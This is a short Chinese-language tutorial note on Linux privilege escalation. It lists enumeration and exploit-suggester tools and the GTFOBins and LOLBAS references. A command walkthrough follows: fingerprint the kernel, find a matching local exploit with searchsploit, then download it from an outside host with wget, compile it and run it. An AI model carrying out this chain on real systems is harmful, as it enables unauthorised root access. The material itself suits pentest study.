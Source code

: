 https://github.com/rebootuser/LinEnum

https://github.com/mzet-/linux-exploit-suggester

https://github.com/sleventyeleven/linuxprivchecker

https://github.com/jondonas/linux-exploit-suggester-2

一个综合类探针：traitor

一个自动化提权：BeRoot(gtfobins&lolbas)

两个信息收集：LinEnum linuxprivchecker

两个漏洞探针：linux-exploit-suggester&2

二进制文件提权查询：

Linux：https://gtfobins.github.io/

Windows：https://lolbas-project.github.io/

### 简单利用

利用堆栈溢出漏洞，根据当前系统 寻找对应的漏洞的exp 使用exp对其进行提权

```
uname -a
cat /proc/version
uname -srm
hostnamectl
cat /etc/issue
cat /etc/redhat-release
lsb_release -a
```

根据linux的内核版本去找对应的exp

```
searchsploit -t Ubuntu 15.04
searchsploit -s Ubuntu 15.04
searchsploit -s Linux Kernel 3.13.0
```

查看描述

```
searchsploit -x linux/local/37088.c
```

利用

```
wget http://192.168.0.109/exp.c
gcc exp.c -o exp
chmod +x exp
./exp
```
